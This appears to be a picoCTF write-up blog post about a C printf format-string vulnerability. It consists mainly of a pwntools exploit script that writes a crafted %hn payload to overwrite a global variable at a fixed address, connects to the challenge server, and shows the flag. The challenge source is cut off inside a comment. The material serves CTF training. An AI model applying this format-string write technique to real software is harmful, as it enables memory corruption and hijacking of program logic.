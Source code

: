 ```yaml
---
layout: post
title:  "Overwriting Variables Using C’s Printf() Vulnerability to Hijack Conditions"
description: Abusing C’s printf functions in programs to over-write variables to values of our choosing.
date:   2024-10-29
tags: ["Medium", "Buffer Overflow", "Binary Exploitation", "pwn", "binex"]
category: [CTF,picoCTF]
comments: true
---
```


{: .prompt-info }
> **Provided By**
> [alimuhammadsecured](https://medium.com/@alimuhammadsecured/) <- visit their writeups!


## Understanding chall.c

The code for your convenience:
```python
from pwn import*

'''
second 2 bytes  first 2 bytes 
[ 67 61 ]       [6c 66] 
ok so we split it into 2 sections of two bytes each.
Now we're going to show the representation of each of these numbers in decimal since that's how we write using %n.
6761 = 26465
6c66 = 27750
'''

# 27750 - 26465 = 1285 bytes left to write

address_of_sus_global_var = 0x404060
little_endian_second_two_bytes = p64( address_of_sus_global_var + 2 )
little_endian_base_first_two_bytes = p64( address_of_sus_global_var )

#          (14)            (15)          (16)          (17)          (18)                                (19)
payload = b"%026465x" + b"%0018$hn" + b"%001285x" + b"%0019$hn" + little_endian_second_two_bytes + little_endian_base_first_two_bytes

# setup the connection
HOST = "rhea.picoctf.net"
PORT = 52318
pipe = remote( HOST, PORT )
pipe.sendline(payload)
pipe.interactive()

# FLAG: picoCTF{f0rm47_57r?_f0rm47_m3m_5161a699}


'''

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


- The sus variable is stored in smt known as the data segment because it is not in the main() function,
    Anthony said that we need to look at PIE (since it is not enabled this will help us).

********
- Moreover, our data is stored in the stack, we need to use %n, but how will
    we write to sus if out input is in the stack?
        - apparantely %n does not just write to stack but a specific
        place in memory relatively to characters printed or smt.
        so global variables are stored in a fix position if PIE is not enabled, that's a good start.

        
'''


```


## Vulnerabilities
There's several vulnerabilities to note:
- The `printf()` unsanitized format strings can be executed to overwrite data, leak data off the stack, etc.


## Solution
- visit the writeups link at the top.